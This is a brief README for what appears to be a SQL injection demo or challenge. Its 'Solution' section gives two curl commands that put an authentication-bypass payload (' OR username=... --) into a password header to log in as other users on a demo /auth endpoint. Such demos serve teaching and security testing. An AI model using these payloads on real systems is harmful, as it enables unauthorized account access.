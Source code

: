 # sql-injection-demo

# Solution:

`curl {server ip}:8000/auth -H "username:viet009" -H "pw:' OR username='viet010' --'"`
`curl {server ip}:8000/auth -H "username:viet009" -H "pw:' OR username='viet020' --'"`
